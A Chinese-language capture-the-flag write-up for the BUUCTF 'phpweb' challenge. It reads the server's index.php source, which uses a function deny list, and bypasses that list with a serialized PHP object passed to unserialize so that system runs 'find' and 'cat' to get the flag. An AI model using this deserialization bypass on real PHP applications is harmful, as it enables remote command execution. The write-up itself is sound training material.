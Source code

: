 ## phpweb

开题,发现数据包格式为

```
POST /index.php HTTP/1.1
Host: fd4d282d-79bc-446e-8a04-f553eb93bd86.node3.buuoj.cn
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://fd4d282d-79bc-446e-8a04-f553eb93bd86.node3.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://fd4d282d-79bc-446e-8a04-f553eb93bd86.node3.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

func=date&p=Y-m-d+h%3Ai%3As+a
```

`func=date&p=Y-m-d+h%3Ai%3As+a`好像可以直接命令执行

`func=file_get_contents&p=index.php`,尝试直接读`index.php`

```php
   <?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

用反序列化绕过`disable_fun`

查找flag,`func=unserialize&p=O:4:"Test":2:{s:4:"func";s:6:"system";s:1:"p";s:19:"find /* | grep flag";}`,得到`/tmp/flagoefiu4r93`

读flag`func=unserialize&p=O:4:"Test":2:{s:4:"func";s:6:"system";s:1:"p";s:22:"cat /tmp/flagoefiu4r93";}`,得到`flag{951cf036-a74f-4cc2-a948-0e21cc39d4a7}`